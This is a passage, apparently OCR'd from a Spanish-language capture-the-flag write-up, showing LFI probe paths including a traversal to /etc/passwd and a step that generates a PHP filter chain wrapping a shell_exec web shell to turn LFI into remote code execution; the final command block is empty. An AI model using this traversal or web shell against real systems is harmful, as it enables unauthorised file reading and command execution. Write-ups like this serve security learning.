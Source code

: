 ```bash
/var/log/lastlog"                                                   
/var/log/wtmp"                                                      
///////../../../etc/passwd"                                         
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos un **LFI** lo derivaremos a un **RCE** aprovechandonos de **PHPFilterChains**, Generamos el payload para poder controlar un comando a nivel de sistema:
```bash
php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

### Ejecucion del Ataque
Copiamos todo el **payload** y lo pegamos el la url y le damos enter:
```bash
# Comandos para explotación
```